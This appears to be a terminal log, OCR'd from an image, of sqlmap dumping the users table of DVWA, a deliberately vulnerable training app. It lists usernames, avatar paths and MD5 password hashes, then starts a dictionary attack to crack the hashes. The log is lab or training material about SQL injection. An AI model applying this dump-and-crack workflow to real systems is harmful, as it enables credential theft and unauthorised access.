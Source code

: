     [10:42:52] [INFO] retrieved: 'varchar(15)'
    [10:42:52] [INFO] retrieved: 'varchar(32)'
    [10:42:52] [INFO] retrieved: 'avatar'
    [10:42:52] [INFO] retrieved: 'last_login'
    [10:42:52] [INFO] retrieved: 'varchar(70)'
    [10:42:52] [INFO] retrieved: 'failed_login'
    [10:42:52] [INFO] retrieved: 'timestamp'
    [10:42:52] [INFO] retrieved: 'int(3)'
    [10:42:52] [INFO] fetching entries for table 'users' in database 'dvwa'
    [10:42:52] [INFO] starting 5 threads
    [10:42:52] [INFO] retrieved: 'admin'
    [10:42:52] [INFO] retrieved: 'gordonb'
    [10:42:52] [INFO] retrieved: '1337'
    [10:42:52] [INFO] retrieved: 'smithy'
    [10:42:52] [INFO] retrieved: 'pablo'
    [10:42:52] [INFO] retrieved: '/hackable/users/admin.jpg'
    [10:42:52] [INFO] retrieved: '/hackable/users/gordonb.jpg'
    [10:42:52] [INFO] retrieved: '/hackable/users/1337.jpg'
    [10:42:52] [INFO] retrieved: '/hackable/users/pablo.jpg'
    [10:42:52] [INFO] retrieved: '0'
    [10:42:52] [INFO] retrieved: '/hackable/users/smithy.jpg'
    [10:42:52] [INFO] retrieved: '0'
    [10:42:52] [INFO] retrieved: '0'
    [10:42:52] [INFO] retrieved: '0'
    [10:42:52] [INFO] retrieved: 'admin'
    [10:42:52] [INFO] retrieved: 'Hack'
    [10:42:52] [INFO] retrieved: '0'
    [10:42:52] [INFO] retrieved: 'Pablo'
    [10:42:52] [INFO] retrieved: '2023-12-12 14:29:30'
    [10:42:52] [INFO] retrieved: 'Gordon'
    [10:42:52] [INFO] retrieved: '2023-12-12 14:29:30'
    [10:42:52] [INFO] retrieved: 'Bob'
    [10:42:52] [INFO] retrieved: '2023-12-12 14:29:30'
    [10:42:52] [INFO] retrieved: '2023-12-12 14:29:30'
    [10:42:52] [INFO] retrieved: 'admin'
    [10:42:52] [INFO] retrieved: 'Me'
    [10:42:52] [INFO] retrieved: '2023-12-12 14:29:30'
    [10:42:52] [INFO] retrieved: 'Picasso'
    [10:42:52] [INFO] retrieved: '5f4dcc3b5aa765d61d8327deb882cf99'
    [10:42:52] [INFO] retrieved: '8d3533d75ae2c3966d7e0d4fcc69216b'
    [10:42:52] [INFO] retrieved: 'Brown'
    [10:42:52] [INFO] retrieved: 'Smith'
    [10:42:52] [INFO] retrieved: '0d107d09f5bbe40cade3de5c71e9e9b7'
    [10:42:52] [INFO] retrieved: '3'
    [10:42:52] [INFO] retrieved: '5f4dcc3b5aa765d61d8327deb882cf99'
    [10:42:52] [INFO] retrieved: 'e99a18c428cb38d5f260853678922e03'
    [10:42:52] [INFO] retrieved: '4'
    [10:42:52] [INFO] retrieved: '1'
    [10:42:52] [INFO] retrieved: '2'
    [10:42:52] [INFO] retrieved: '5'
    [10:42:52] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to crack them via a dictionary-based attack? [Y/n/q] Y
    [10:42:52] [INFO] using hash method 'md5_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [10:42:52] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N
    [10:42:52] [INFO] starting dictionary-based cracking (md5_generic_passwd)
    [10:42:52] [INFO] starting 16 processes